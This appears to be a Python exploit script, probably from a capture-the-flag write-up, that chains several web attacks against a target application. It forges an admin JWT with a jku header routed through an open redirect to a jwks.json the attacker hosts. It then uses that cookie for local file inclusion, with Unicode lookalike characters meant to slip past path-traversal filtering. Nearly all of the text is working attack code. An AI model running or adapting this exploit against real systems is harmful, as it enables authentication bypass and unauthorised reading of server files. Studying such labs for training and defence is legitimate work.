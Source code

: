 ```py
        # Using Open redirect to bypass jku validation
        jwks_server = f"{host}/static/../redirect/?url={jwks_serv_ip}/jwks.json"
        # Generate jwt token
        self.jwt_token = jwt.encode({"user": "admin"}, private_key, algorithm="RS256", headers={"jku": jwks_server})
        # print(self.jwt_token)
        # decoded = jwt.decode(jwt_token, public_key, algorithms=["RS256"])
        # print(decoded)


parser = argparse.ArgumentParser()
parser.add_argument('--genFiles', action='store_true', help="Generate jwks.json and token.")
parser.add_argument('--lfi', help="lfi attack.")
args = parser.parse_args()


def getValues():
    return GenTokenAndJWKS()


def GenRequiredFiles():
    values = getValues()
    # write modified jwks in "jwks.json"
    print(f"[+] 'jwks.json' and 'jwt.token' will be saved in[CWD]: {files_path}")
    a_file = open(f"{files_path}/jwks.json", "w")
    json.dump(values.modified_jwks, a_file, indent=4)
    a_file.close()

    # Write jwt token in a file
    a_file = open(f"{files_path}/jwk.token", "w")
    a_file.write(values.jwt_token)
    a_file.close()


if args.genFiles:
    GenRequiredFiles()

try:
    jwt_token = open(f"{files_path}/jwk.token", "r").read()
    cookies_dict = {"auth": jwt_token}
    if args.genFiles:
        # Test token
        input(f"[+] Run 'sudo python3 -m http.server 80' on CWD before continue[ENTER]...")
        rspn = r.get(f"{host}/dashboard/", cookies=cookies_dict, allow_redirects=False)
        print(f"[!] Token take us to: {re.findall(r'<title>(.*?)</title>', rspn.text)[0]}")
except FileNotFoundError as e:
    print(e)


def lfi(payload):
    lfi_rspn = r.get(f"{host}/display/?page={payload}", cookies=cookies_dict)
    if 'Unauthorized' in lfi_rspn.text:
        exit('Unauthorized')
    elif re.search(r'<h3>(.*?)</h3>', lfi_rspn.text):
        print(f"[-] {re.findall(r'<h3>(.*?)</h3>', lfi_rspn.text)[0]}!")
    elif re.search(r'<title>(.*?)</title>', lfi_rspn.text):
        print(re.findall(r'<title>(.*?)</title>', lfi_rspn.text)[0])
    else:
        print(lfi_rspn.text)


if args.lfi:
    path = f"︰/︰/︰/︰/︰/︰{args.lfi}"
```